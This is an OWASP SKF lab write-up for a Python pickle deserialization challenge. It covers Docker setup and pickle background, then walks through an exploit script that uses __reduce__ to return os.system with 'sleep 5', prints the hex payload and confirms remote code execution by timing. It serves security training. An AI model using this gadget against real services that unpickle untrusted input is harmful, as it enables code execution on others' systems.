




# KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


 Now that the app is running let's go hacking!



## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Some use cases for python pickle:
1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence)
2) sending python data over a TCP connection in a multi-core or distributed system (marshalling)
3) storing python objects in a database
4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.



The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia:
The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.


## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.



### Step 2

Open the challenge folder, *DES-Pickle*, and open the *exploit.py* file in a text editor.


```python
import pickle
import os
import base64
import binascii 


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))

```

This code creates a Pickle serialized object of *os.system* call passing *sleep 5* as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'

```

*Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used.*

### Step 3

Copy the output of previous step, paste it on the text field and click on *Submit Button*.



Check the Network tab and note the *sync* request takes approximately 5 seconds to respond. It proves that the *sleep 5* command was executed successfully and the Remote Code Execution was achieved.




## Additional sources



